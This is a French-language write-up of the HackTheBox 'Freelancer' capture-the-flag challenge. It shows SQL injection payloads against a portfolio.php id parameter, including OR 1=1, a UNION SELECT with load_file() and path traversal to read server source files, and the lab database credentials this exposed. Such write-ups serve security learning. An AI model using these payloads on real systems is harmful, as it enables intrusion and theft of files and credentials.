# HackTheBox - Freelancer Writeup

Voici le thème utilisé pour le challenge : <a href="https://startbootstrap.com/themes/freelancer/">Freelancer Bootstrap</a><br /><br />
Comme à mes habitudes, je commence par faire un petit tour de la page et je vois rapidement la section "Contact"<br />
Je tente donc d'injecter du code (pour arriver à une XSS (pourquoi pas ahah)) 
<img src="https://i.imgur.com/Z5k0E29.png"/>
Après multiples tentatives, toujours rien, le champ n'est pas vulnerable<br />
Je tente donc de trouver un autre moyen, je fais un CTRL+U, après quelques secondes je trouve un fichier intéressant
<img src="https://i.imgur.com/bzJSZYM.png"/><br />
Je décide donc de modifier l'id
```diff
portfolio.php?id=1 (Log Cabin 1)
portfolio.php?id=2 (Log Cabin 2)
portfolio.php?id=3 (Log Cabin 3)
portfolio.php?id=4 (ne fonctionne pas)
```
Alors, c'est le moment de savoir.. SQLi ou pas SQLi ? <br />
```diff
portfolio.php?id=3 OR 1=1#
```
et là.... Les 3 s'affichent !!<br />
<img src="https://i.imgur.com/ZhtFKYR.png"/><br />
Petit test pour afficher la version (avec version())
<img src="https://i.imgur.com/AjAmt5p.png"/><br />
Bon, il sagit bien d'une SQLi, le but étant d'attraper le FLAG, j'ai eu l'idée d'utiliser LOAD_FILE<br />
<img src="https://i.imgur.com/GuTFKX4.png"/><br />
LOAD_FILE fonctionne bien ! <br />
Maintenant, il faut trouver le bon chemin ... ^_^<br />
Après quelques minutes de recherche, voici ma requête avec le chemin <br />
```diff
portfolio.php?id=3 union select 1,load_file("../../../../../../var/www/html/portfolio.php"),3-- -
```
La page s'affiche correctement, suffit de CTRL+U ! <br />
<img src="https://i.imgur.com/h56LXRG.png"/><br />
Voici la partie intéressante
```php
<?php
// Include config file
require_once "administrat/include/config.php";
?>
```
Au final, rien d'intéressant, juste les informations de la BDD
```php
<?php
$link = new mysqli("localhost", "db_user", "Str0ngP4ss", "freelancer");
```
Evidement, j'ai donc été plus bas
```diff
load_file("../../../../../../var/www/html/administrat/index.php")
```
Voici la partie intéressante de la page : 
```php
<?php
// Initialize the session
session_start();
 
// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
  header("location: panel.php");
  exit;
}

/* (pour faire simple, c'est une condition qui vérifie que $_SESSION["loggedin"] soit bien active et qu'elle soit true)
Nous avons donc ici un systeme de connexion basique, si tu es déjà connecté, ($_SESSION["loggein"] active et true) tu es redirigé sur panel.php */
```
J'ai donc fouillé la page et surprise, Le FLAG ! <br />
<img src="https://i.imgur.com/oarpGmr.png"/><br />
J'ai aussi tenté d'utiliser INTO OUTFILE mais je n'avais pas les droits sauf dans /tmp 😬<br /><br />
Un challenge sympa et pas trop difficile à réaliser seul ou avec ses amis ! <br />
Challenge réalisé par : <a href="https://github.com/http-x-forwarded-for">HXFF</a> et <a href="https://github.com/Aaaaalpha">Alpha</a>
